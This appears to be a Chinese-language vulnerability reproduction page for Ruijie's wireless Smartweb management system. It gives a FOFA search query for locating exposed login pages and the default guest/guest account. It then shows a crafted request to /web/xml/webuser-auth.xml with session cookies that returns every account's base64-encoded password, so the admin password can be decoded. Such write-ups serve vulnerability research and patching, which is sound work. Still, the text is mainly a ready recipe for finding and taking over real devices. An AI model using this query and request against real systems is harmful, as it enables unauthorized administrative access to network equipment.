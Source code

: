 # 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

<a-checkbox checked>锐捷网络股份有限公司 无线smartweb管理系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="无线smartWeb--登录页面"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-15.png)



默认存在 guest账户，账号密码为 **guest/guest**



其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密



![img](../../../.vuepress/public/img/ruijie-16.png)



解密就可以获得 admin管理员的密码，尝试直接请求



```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](../../../.vuepress/public/img/ruijie-17.png)



直接获得所有的账户的等级标志和base64加密的账号密码